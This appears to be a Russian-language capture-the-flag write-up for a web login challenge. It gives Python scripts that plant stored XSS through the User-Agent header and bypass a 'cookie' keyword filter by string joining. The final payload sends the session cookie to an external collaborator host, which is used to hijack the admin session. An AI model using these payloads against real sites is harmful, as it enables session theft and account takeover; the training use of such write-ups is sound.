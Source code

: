 # Forbidden_Code_HW

При входе на сайт видим форму для входа/регистрации

![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Pasted%20image%2020240312215659.png?raw=true)

При изучении страницы HTML находим подсказку о POST-запросе

![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Pasted%20image%2020240312220201.png?raw=true)

В личном кабинете можно найти логи неудачных попыток входа. После неудачной попытки входа получаем такую картину

![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Pasted%20image%2020240312220022.png?raw=true)

Регистрируем пользователя с именем `<script>alert(1)</script>` для проверки XSS payload. Получаем:

![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Pasted%20image%2020240312220615.png?raw=true)

>XSS, или межсайтовый скриптинг, — это тип атаки на веб-приложения, при котором злоумышленник может внедрять в содержимое веб-страницы вредоносный скрипт, который будет выполняться на стороне клиента. Это может привести к краже данных, сессий или даже полному контролю над учетной записью жертвы. Рассмотрим возможные пути кражи аккаунта через XSS и методологию предотвращения таких атак.

## Подготовка атаки
Изменить логин admin на payload нельзя. На поле id, username, IP, Date мы повлиять не можем, они генерируются на сервере, а вот на User-Agent можем. Напишем скрипт на python для этого:

```python
import requests

payload = "<script>alert(1);</script>" # это пейлоад

user = "asdf" #Тут наш username
headers = {'User-Agent': payload} # Вставляем его в хедер
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data) # Совершаем попытку логина с неверным паролем
 
print(response.status_code)# Выводим информацию
#print(response.text) 
```
Проверка скрипта прошла успешно:

![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Pasted%20image%2020240312231514.png?raw=true)

## Проработка атаки с помощью BurpSuite Pro (конечно же купленного)

После поиска в гугл по запросу "XSS steal cookie payloads" и изучения результатов понимаем что нам нужно захватить ```document.cookie``` **значение**.

Пробуем простой alert();

````python 
import requests


payload = '<script>alert(document.cookie);</script>'

user = "asdf" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
print(response.text)
````
И встречаем проблему
![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Pasted%20image%2020240313002008.png?raw=true)

На сайте стоит фильтр на слово ```cookie```

##Обход фильтрации

Не забываем, что у нас есть неограниченный доступ к **javascript** на клиентской части.
в функции alert() нам нужно вывести document.cookie.
Собираем слово cookie из элементов массива
````javascript
const vv = ["coo", "kie"].join(""); # передаем его раздельно и с помощью join собираем в одно слово
alert(document[vv]); # не забываем что document это обьект, и к его значениям можно обращаться не только через точку, но и через [значение]
````
Пробуем этот payload.
````python 
import requests


payload = '<script>const vv = ["coo", "kie"].join("");alert(document[vv]);</script>'

user = "asdf" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
print(response.text)
````
Получаем результат
![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Pasted%20image%2020240313002825.png?raw=true)

Вспоминаем зачем нам потребовался коллаборатор в бурпе.
Данное значение, которое только вывели в alert, мы будем ловить на его **сервер**.

![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Pasted%20image%2020240313003642.png?raw=true)

1) Переходим в вкладку
2) Копируем **url**
3) Переходим по ней в google
4) Нажимаем **Poll now**, чтобы получить с сервера данные.

Эта функция заменит нам ngrok или свой белый IP и сервер, очень удобно.
Копируем и вставляем в скрипт.


````python 
import requests


payload = '<script>const vv = ["coo", "kie"].join(""); var payload = `https://{{СЮДА}}/?${vv}=` + document[vv]; fetch(payload);</script>'

user = "admin" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
print(response.text)
````
Отправляем, ждем, пуллим.

![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Pasted%20image%2020240313004232.png?raw=true)

Подставим значение PHPSESSID в наш браузер. 
![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Pasted%20image%2020240313004351.png?raw=true)

![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Pasted%20image%2020240313004408.png?raw=true)

Получаем флаг: ***CODEBY{m1ss_th3_cl13nt_att4cks?}***
